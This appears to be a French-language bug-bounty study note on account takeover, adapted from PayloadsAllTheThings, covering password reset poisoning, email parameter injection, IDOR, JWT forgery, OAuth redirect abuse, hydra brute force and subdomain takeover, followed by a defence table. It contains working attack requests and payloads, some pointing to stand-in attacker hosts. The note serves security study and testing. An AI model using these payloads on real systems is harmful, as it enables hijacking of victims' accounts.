

# Account Takeover (ATO)

> [!info] **En 1 phrase**
> ATO = obtenir un **accès non autorisé** au compte d'une victime en abusant d'un mécanisme
> d'authentification fragile : **reset de mot de passe**, **vol de session (cookie/token)**,
> **OAuth**, **IDOR** ou réutilisation de secrets faibles/prédictibles.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Account%20Takeover/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Le compte n'est jamais piraté "directement" : l'attaquant exploite un **maillon faible de la chaîne
> de confiance** (email, reset, session, token). Un seul lien cassé = ATO complet.

---

## Les vecteurs (vue d'ensemble)

| Vecteur | Mécanisme exploité | Impact typique |
|---|---|---|
| **Reset de mot de passe** | Token volé (Host header, referer), prédictible, non expiré, IDOR | Changement du mdp de la victime |
| **Cookie / session** | Fixation, vol (XSS), pas d'invalidation, réutilisation | Session rejouée à l'identique |
| **JWT** | `alg: none`, clé faible, signature non vérifiée | Token forgé pour un autre user |
| **OAuth** | `redirect_uri` permissif, `state` absent, token leak | Compte de la victime lié au flux |
| **Email** | Changement d'email sans vérif, prise du mail, collision de noms | Redirection des mails de reset |
| **2FA** | Bypass, code faible, réutilisable | Neutralisation de la 2nd factor |
| **Infra** | Subdomain takeover, comptes orphelins | Phishing / cookie-scope parent |

---

## Password Reset — le champ de bataille principal

> [!warning] **C'est LE vecteur n°1 en bug bounty.** Un reset mal implémenté = ATO en 2 minutes.

### Password Reset Poisoning (Host header)

> L'app construit le lien de reset avec la valeur du **Host header** (ou `X-Forwarded-Host`)
> → le token part chez l'attaquant au lieu de la victime.

```http
POST https://example.com/reset.php HTTP/1.1
Host: attacker.example.com
X-Forwarded-Host: attacker.example.com
Content-Type: application/json

{"email":"victim@example.com"}
```

```bash
# Résultat : l'app envoie le mail de reset avec un lien vers NOTRE domaine
# → on clique, on reçoit le token, on le réutilise sur la vraie app :
GET https://example.com/reset-password.php?token=TOKEN

# Variantes de header à tester
X-Forwarded-Host
X-Host
X-Forwarded-Server
Forwarded: host=attacker.example.com
Host: attacker.example.com@victim.example.com   # parsing confus
```

> [!tip] Toujours tester sur **toutes les routes de reset** (`/reset`, `/forgot`, `/recover`)
> et sur le **callback de la page** : le token peut aussi fuiter dans la **réponse HTTP** elle-même.

### Token leak via Referrer

```bash
# 1. Demander un reset → cliquer le lien dans le mail
# 2. NE PAS changer le mot de passe
# 3. Cliquer un lien externe (réseau social...) depuis la page de reset
# 4. Intercepter la requête dans Burp → vérifier le header Referer :
```

```http
GET https://twitter.com/ HTTP/1.1
Host: twitter.com
Referer: https://example.com/reset-password.php?token=TOKEN_SECRET
```

> [!warning] Le **Referer** peut contenir le token si la page de reset l'embarque en query string.
> Tester aussi le token dans le **Referer vers un sous-domaine contrôlé**.

### Manipulation du paramètre email

> L'app envoie le reset à plusieurs adresses → le token arrive **aussi chez l'attaquant**.

```http
POST /forgot HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

# Pollution de paramètre
email=victim@example.com&email=hacker@example.com

# Séparateurs
email=victim@example.com,hacker@example.com
email=victim@example.com hacker@example.com
email=victim@example.com|hacker@example.com
```

```json
// Tableau / objet (API JSON)
{"email": ["victim@example.com", "hacker@example.com"]}
{"email": {"to": "victim@example.com", "cc": "hacker@example.com"}}
```

```http
# Carbon copy (injection dans l'enveloppe SMTP)
email=victim@example.com%0A%0Dcc:hacker@example.com
email=victim@example.com%0A%0Dbcc:hacker@example.com
```

### IDOR sur le reset / change password

> Login avec SON compte, puis modification des paramètres identifiants (ID, email) dans la requête.

```http
POST /api/changepass HTTP/1.1
Host: example.com
Content-Type: application/json

{"form": {"email": "victim@example.com", "password": "Pwn3d@123"}}
```

```bash
# À tester aussi : id dans l'URL, le cookie, le JWT, le header X-User-Id
GET /api/v1/user/reset?uid=1337        # → changer uid pour viser une autre victime
POST /reset/confirm
Body: {"token": "x", "userId": 1337}
```

### Token faible, réutilisé, non expiré

> La génération du token de reset doit être **aléatoire, unique, courte durée de vie**.
> Tester les variables probables dans l'algorithme :

| Variable possible | Comment le tester |
|---|---|
| Timestamp | Token basé sur `time()` / `Date.now()` → prédire le prochain |
| UserID / email | Token = hash de l'identifiant → dérivé, pas aléatoire |
| Noms (first/last name, date de naissance) | Hash d'une donnée publique |
| Chiffres uniquement | Bruteforceable si petit espace |
| Token court (< 6 chars [A-Za-z0-9]) | Bruteforce en ligne / offline |
| Réutilisation | Demander 2 resets → même token ? |
| Expiration | Rejouer un ancien token après 24h/7j → toujours actif ? |

```bash
# Tester l'entropie : répéter les demandes, comparer les tokens
for i in $(seq 1 20); do curl -s -X POST https://example.com/reset -d "email=victim@example.com"; done
# → tokens identiques / incrémentaux / dérivés du timestamp = faible

# Token dans la réponse HTTP (fuite directe)
curl -s -X POST https://example.com/v3/user/password/reset -d "email=test@example.com"
# → chercher resetToken / token / access_token dans le JSON de réponse
```

### Collision de noms d'utilisateur (username)

> L'app ne normalise pas les identifiants → un compte "proche" permet de piller la victime.

```bash
# 1. S'inscrire avec "admin " (espaces avant/après)
# 2. Demander un reset pour "admin " → le mail part chez NOUS
# 3. Utiliser le token → reset du compte "admin" réel
# CVE-2020-7245 (CTFd) : champ username tronqué/normalisé
```

### Normalisation Unicode

> `ⓞ` (U+24DE) peut être normalisé en `o` par la plateforme → deux comptes distincts en apparence,
> identiques après normalisation.

```bash
# Compte victime  : demo@gmail.com
# Compte attaquant : demⓞ@mail.com → normalisé en demo@mail.com ?
# → reset sur le compte attaquant = reset du compte victime
```

> [!tip] **Outils** : [Unisub (tomnomnom)](https://github.com/tomnomnom/hacks/tree/master/unisub)
> pour trouver des caractères Unicode "équivalents" ; [Unicode pentester cheatsheet](https://gosecure.github.io/unicode-pentester-cheatsheet/).

---

## Cookies & Sessions

| Attaque | Mécanisme | PoC rapide |
|---|---|---|
| **Cookie fixation** | L'app accepte un cookie posé par l'attaquant → la victime s'authentifie dessus | Poser `session=attacker` via XSS/subdomain, la victime login, on rejoue le cookie |
| **Pas d'invalidation** | Le cookie reste valable après logout / changement de mdp | Logout puis rejouer l'ancien cookie → toujours authentifié ? |
| **Réutilisation** | Cookie post-expiration, scope trop large (`*.domain.com`) | Rejouer un cookie capturé plus tard, depuis un autre IP/device |
| **Vol via XSS** | Cookie non `HttpOnly` récupérable par JS | Voir [[XSS (Cross-Site Scripting)\| XSS]] |

```bash
# Cookie fixation basique
# 1. Attaquant : login → récupérer son cookie valide
# 2. Poser ce cookie chez la victime (XSS, MITM, sous-domaine)
# 3. Victime se connecte → le serveur associe SA session au cookie connu de l'attaquant
# 4. Attaquant : rejouer le cookie → authentifié en victime
```

> [!warning] Vérifier aussi l'**expiration réelle** : beaucoup d'apps n'expirent les sessions que
> côté client. Un cookie volé il y a 6 mois reste parfois exploitable. Toujours **rejouer** les cookies
> sur un autre navigateur/IP pour confirmer.

---

## JWT

> Résumé : le token est **signé** (`header.payload.signature`). ATO = forger/modifier un token
> pour un autre user en abusant de l'algo (`none`, confusion HS/RS), de la clé (faible, `kid`/`jku`/`jwk`
> injectables) ou des claims (`sub`, `role`).

```bash
# 1. Intercepter son propre JWT
# 2. Décoder le payload, changer sub/user_id/email vers la victime
# 3. Re-signer ou bypass signature selon la vuln :
#    - alg: none         (header {"alg":"none"} + signature vide)
#    - HS256 avec clé publique (si le serveur signe en RS256)
#    - clé faible → crack avec hashcat (mode 16500)
#    - kid="/dev/null" ou jku=http://attacker/jwks.json
# 4. Rejouer le token → authentifié en victime
```

> [!tip] Toutes les attaques, payloads et outils dans la note dédiée :
> → [[Attaques JWT| JWT]]

---

## OAuth

| Faiblesse | Effet | Test |
|---|---|---|
| **`redirect_uri` permissif** | Le token/code part vers le domaine de l'attaquant | Tester `redirect_uri=https://evil.com`, `//evil.com`, sous-domaines, wildcard |
| **`state` absent/faible** | CSRF sur le callback → lier le compte victime au compte attaquant | Retirer `state`, le relancer, rejouer le callback |
| **Token leak** | Le code/token fuit via referer, logs, cache, histoire du navigateur | Associer avec [[Open Redirect\|↪Open Redirect]] |
| **Confusion de flow** | Authorization code ↔ implicit interchangeables | Forcer un flow vers l'autre |

> [!warning] L'ATO OAuth = **lier le compte attaquant au compte victime** (ou voler le token) :
> la victime se connecte via le fournisseur, l'attaquant récupère le callback → contrôle du compte.
>
> → Note complète : [[OAuth| OAuth]]

---

## Autres vecteurs

### Réponses d'erreur révélatrices & énumération d'emails

```bash
# Différence de réponse = confirmation de l'existence d'un compte
Login:    user@example.com → "Mot de passe incorrect"        # compte existe
          user@missing.com → "Utilisateur inconnu"           # n'existe pas

Reset:    user@example.com → 200 + "email envoyé"
          user@missing.com → 404 / "email introuvable"
```

> [!warning] Si **login** et **reset** divergent, on énumère les comptes valides → la base d'un
> password spraying ciblé et de tous les ATO suivants.

### Changement d'email / de numéro sans vérification

```bash
# 1. Login → section "Mon profil"
# 2. Intercepter POST /account/email → changer l'adresse
# 3. PAS de re-vérification (pas de mail de confirmation, pas de saisie du mdp)
# 4. Demander un reset sur le NOUVEL email → on prend le compte
```

### Rate limit & bruteforce

```bash
# Login sans rate limit → bruteforce du mdp
hydra -l victim@example.com -P rockyou.txt example.com http-post-form \
  "/login:email=^USER^&password=^PASS^:Invalid credentials"

# Ou cibler le reset : bruteforce d'un token de reset court (6 chiffres)
```

### Bypass 2FA

```bash
# - Code 2FA réutilisable / non expiré / court (bruteforceable)
# - 2FA absent sur certains endpoints (API mobile, vieux endpoints)
# - 2FA bypassable en changeant user-agent / méthode (GET au lieu de POST)
# - "account recovery" sans 2FA : récupérer le compte par le seul email
# - Réponse HTTP/JSON qui diffère si 2FA validée (déduire le code)
```

### Flows de récupération de compte

> Les **"account recovery"** (questions secrètes, preuves alternatives, renvoi du mdp en clair)
> sont souvent mal sécurisés : questions devinables (nom de jeune fille, animal), réponse insensible
> à la casse, envoi du mdp en clair par email, récupération **sans** validation de l'email.

### Subdomain Takeover

> → Section détaillée ci-dessous. Pourquoi ça mène à l'ATO : un sous-domaine piraté sert à
> **poser des cookies sur le domaine parent** (`*.domain.com`) ou à **phisher la victime**
> et voler ses identifiants/session.

---

## Subdomain Takeover

> Un **CNAME DNS** pointe vers un service qui a été **supprimé** (le service n'est plus revendiqué
> → n'importe qui peut re-créer le service et servir du contenu sur le domaine).

### Comment ça marche

```txt
# 1. Recon : trouver des CNAME "morts"
sub.example.com    CNAME    old-app.herokuapp.com     # app Heroku supprimée
sub2.example.com   CNAME    something.github.io       # repo GitHub supprimé
sub3.example.com   CNAME    d1234567.awsglobalaccelerator.com

# 2. Vérifier que le CNAME renvoie une réponse "dangling" (NXDOMAIN / 404 service)
# 3. Re-créer le service sur la plateforme avec le même identifiant
# 4. Servir du contenu sur sub.example.com
```

### Outils de détection

```bash
# - subfinder / amass / assetfinder : collecte des sous-domaines
# - nuclei -t http/takeovers/ : templates de détection
# - "Can I take over XYZ ?" : https://github.com/EdOverflow/can-i-take-over-xyz
# - dig/nslookup pour confirmer le CNAME et la résolution
dig sub.example.com CNAME +short
# → old-app.herokuapp.com  (résolution NXDOMAIN = candidat)
```

### Services fréquemment abusés

| Service | Indice de vulnérabilité |
|---|---|
| **GitHub Pages** | `*.github.io`, repo supprimé → "There isn't a GitHub Pages site here" |
| **Heroku** | `*.herokuapp.com`, app supprimée → "No such app" |
| **AWS S3 / CloudFront / Global Accelerator** | bucket supprimé → `NoSuchBucket` |
| **Azure (App Service, CDN, Traffic Manager)** | "The requested content does not exist" |
| **Netlify / Vercel / Surge / Shopify / Fastly** | pages/projets supprimés |
| **ReadMe / Gitbook / Cargo** | docs supprimées |

> [!warning] Impact ATO : si le cookie de session est scellé sur `*.example.com`, un sous-domaine
> contrôlé peut **poser/fixer un cookie** sur le domaine parent, ou **phisher** la victime sur une
> page "login" parfaitement légitime.
>
> → Note complète (détection/exploitation) : [[03 - Exploitation Web| Exploitation Web]] §14.4

---

## Détection & Défense

| Risque | Défense |
|---|---|
| **Token de reset faible/prédictible** | Entropie élevée (>= 128 bits), génération `secrets.token_urlsafe`, usage unique |
| **Token non expiré / réutilisé** | TTL court (10-15 min max), invalidation après usage |
| **Host header poisoning** | Validation stricte du Host (allowlist), ignorer `X-Forwarded-Host` non approuvé |
| **Leak via Referer** | Token jamais dans l'URL (POST + body), `Referrer-Policy: no-referrer` |
| **IDOR sur reset/change pass** | Vérifier l'identité depuis la **session** (jamais depuis le body/URL) |
| **Paramètre email permissif** | Un seul destinataire strictement égal au compte demandeur |
| **Cookie fixation / réutilisation** | `SameSite`, régénérer le session-id au login, logout = invalidation serveur |
| **Sessions non invalidées** | Invalider toutes les sessions au changement de mdp / email |
| **JWT** | Algo figé (`HS256`/`RS256` strict), clé forte, vérif `kid`/`jku`, `exp` court, `sub` depuis le token signé |
| **OAuth** | `redirect_uri` whitelist exacte, `state` aléatoire obligatoire, code à usage unique + TTL |
| **Réponse révélatrice** | Message unique "identifiants invalides" quel que soit le cas, même timing |
| **Rate limit** | Limiter login/reset/2FA (par IP **et** par compte), CAPTCHA, backoff |
| **Changements sensibles** | Re-vérification (email + mdp + 2FA) avant tout changement email/mdp/numéro |
| **Énumération de comptes** | Réponses et délais identiques, tokens de reset non différenciants |
| **Unicode / collisions** | Normaliser les identifiants (NFC) **avant** stockage, unicité stricte post-normalisation |
| **2FA** | Code à usage unique + TTL court + rate limit, jamais réutilisable |
| **Subdomain takeover** | Audit DNS périodique des CNAME, revendiquer/clean les services, cookies scopes au plus précis |

---

## Tips & Pièges

> [!tip] **Ordre logique d'attaque**
> 1. **Existence** : le compte existe-t-il ? (login/reset → différences de réponse)
> 2. **Reset** : manipulation du paramètre email → Host header → IDOR → token faible
> 3. **Token** : entropie, expiration, réutilisation, leak (referer, réponse, logs)
> 4. **Cookie/session** : fixation, invalidation, réutilisation, scope
> 5. **OAuth/SSO** : redirect_uri, state, token leak
> 6. **Infra** : subdomain takeover, compte orphelin, 2FA
> Toujours documenter l'impact complet : "qui contrôle quoi ?" à la fin.

> [!warning] **Pièges classiques**
> - "User not found" vs "bad password" : deux réponses différentes = énumération confirmée.
> - Ne jamais modifier un mot de passe de compte **réel** en bug bounty sans autorisation écrite
>   (utiliser un compte de test / victime consentante).
> - Un token qui **semble** aléatoire peut être un hash dérivé (timestamp, email) — analyser l'hex,
>   vérifier la longueur et l'entropie, tester la réutilisation entre 2 demandes.
> - Tester le reset sur **tous** les endpoints (`/forgot`, `/recover`, API mobile, webhook) et avec
>   **plusieurs méthodes** (GET vs POST) : un seul endpoint mal implémenté suffit.
> - Le Host header n'est pas la seule source : tester `X-Forwarded-Host`, `Forwarded`, double Host.
> - Un sous-domaine "mort" peut servir de **preuve de vulnérabilité légitime** (impact inférieur)
>   mais est un **multiplicateur** pour l'ATO (cookies parent, phishing). Le chaîner.
> - Bien vérifier que le cookie est réellement **réutilisable** (autre navigateur, autre IP) avant
>   de le déclarer : certaines apps changent de session-id silencieusement.

> [!tip] **PoC complet à documenter**
> 1. URL + méthode + headers + body exacts (requête Burp brute)
> 2. Capture des réponses (token, redirection, cookie)
> 3. Preuve de contrôle du compte : 2 screenshots (avant = victime, après = accès)
> 4. Impact chiffré : type de compte (user/admin), données exposées, actions possibles
> 5. Conditions : navigateur/IP, timing, état (compte sans 2FA...)
> 6. Reproduction 2 fois pour prouver la constance, puis **restaurer** l'état d'origine

---

## Liens

- [[IDOR| IDOR]]
- [[Attaques JWT| JWT]]
- [[OAuth| OAuth]]
- [[XSS (Cross-Site Scripting)| XSS]]
- [[Open Redirect|↪Open Redirect]]
- [[HTTP Request Smuggling| HTTP Request Smuggling]]
- [[CSRF| CSRF]]
- [[Type Juggling| Type Juggling]]
- [[Password Cracking| Password Cracking]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Account Takeover](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Account%20Takeover/README.md)
